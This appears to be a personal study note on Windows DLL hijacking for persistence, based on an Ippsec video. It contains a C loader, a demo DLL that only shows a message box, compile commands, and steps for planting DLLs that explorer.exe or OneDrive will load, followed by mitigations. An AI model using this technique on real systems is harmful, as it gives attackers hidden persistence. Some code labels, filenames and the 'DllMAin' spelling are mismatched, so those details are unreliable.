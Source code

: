 
## DLL-Hijacking

## Ippsec Video

[Ippsec's All About DLL Hijacking - My Favorite Persistence Method ](https://www.youtube.com/watch?v=3eROsG_WNpE)

bad.dll
```C
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;
	
	// Load a DLL
	hDll = LoadLibrary(TEXT("bad.dll"));
	
	// If DLL was loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL Not Found\n");
	} 

	return 0;
}
```

Hello.c
```c
#include <windows.h>

BOOL WINAPI
DllMAin (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(NULL, //Owner
				"Hello and welcome to DLL hijacking subscribe to Ippsec", // Message
				"ippsec", //Title
				MB_ICONERROR | MB_OK // TYPE
				);
			break;	
		}			
return TRUE;	
}
```

```bash
x86_64-w64-mingw32-gcc-win32 hello.c -o test.exe
x86_64-w64-mingw32-gcc-win32 dll.c -o bad.dll -shared # shared to make it a dll
```

Transfering just the executable and not the dll, using [[Sysinternals-ProcMon]] to `Filter -> Process Name is test.exe -> Apply and ok` then running test.exe we can observer path recursion looking for the missing bad.dll. If you write to any of the locations that recursively searched for or we can put it in the current working directory we can do DLL Hijacking. Similarly if we can inject into a misconfigured `%PATH%` where system32 is not the first in the listing we can also perform DLL Hijacking

```powershell
echo %PATH%
```

"Known DLLs" are not Hijackable 
- `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ControlSession Manager\KnownDLLs`

The power of this persistence method comes from placing the dll in difficult to find locations. 

Ippsec demonstrates that if we can write in `c:\Windows` we can hijack most of the dll's explorer.exe loads from system32 as the recursive search has not yet had to recurse to the child directory. Explorer is relative unique binary in that there are very few in `c:\Windows` directory Ippsec uses `csapi.dll` and points out that some dlls are not really used this being one of them, but is still loaded by explorer.exe. Similiarly he just downloads the dll to OneDrive executable directory and hijacks it by once again placing it within a position in the path to which it will be loaded first.

## Mitigations

- **Append** additional path variables do not **Prepend** default directorys
- Check third party software post-installation directory permissions with `icacls.exe`
	- Commonly third party apps will misconfigure your system that allow for this exploited 


## References

[Ippsec's All About DLL Hijacking - My Favorite Persistence Method ](https://www.youtube.com/watch?v=3eROsG_WNpE)